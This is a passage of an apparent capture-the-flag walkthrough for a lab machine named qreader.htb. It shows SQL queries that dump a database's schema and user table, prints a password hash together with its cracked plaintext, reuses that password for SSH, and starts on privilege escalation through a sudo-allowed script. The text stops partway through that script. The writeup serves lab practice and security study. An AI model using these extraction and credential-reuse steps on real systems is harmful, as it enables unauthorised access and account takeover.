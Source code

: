 - `./ws_cli.py "SELECT group_concat(name) FROM sqlite_schema"`
    - sqlite_sequence,versions,users,info,reports,answers
- `./ws_cli.py "SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'"`
    - CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password DATE, role TEXT)

So there is a table `users` with `username` and `password`

- `./ws_cli.py "select username from users"`

admin

- `./ws_cli.py "select password from users"`

0c090c365fa0559b151a43e0fea39710

Crack password: [https://crackstation.net/](https://crackstation.net/)

PW: denjanjade122566

The username is not admin for the SSH login so check the `answers` table.

- `./ws_cli.py "SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='answers'"`
    - CREATE TABLE answers (id INTEGER PRIMARY KEY AUTOINCREMENT, answered_by TEXT,  answer TEXT , answered_date DATE, status TEXT,FOREIGN KEY(id) REFERENCES reports(report_id))
- `./ws_cli.py "select answer from answers"`

```
Hello Json,
As if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.
Thomas Keller
```

So we try the username `tkeller` with the password from the `admin`

- `ssh tkeller@qreader.htb`

uid=1001(tkeller) gid=1001(tkeller) groups=1001(tkeller),1002(shared)

→ user.txt

# Priv Esc

- `sudo -l`

```
User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh
```

- ls -la /usr/local/sbin/build-installer.sh
-rwxr-xr-x 1 root root 1096 Feb 17 11:41 /usr/local/sbin/build-installer.sh

```bash
#!/bin/bash
if [ $# -ne 2 ] && [[ $1 != 'cleanup' ]]; then
  /usr/bin/echo "No enough arguments supplied"
  exit 1;
fi

action=$1
name=$2
ext=$(/usr/bin/echo $2 |/usr/bin/awk -F'.' '{ print $(NF) }')

if [[ -L $name ]];then
  /usr/bin/echo 'Symlinks are not allowed'
  exit 1;
fi

```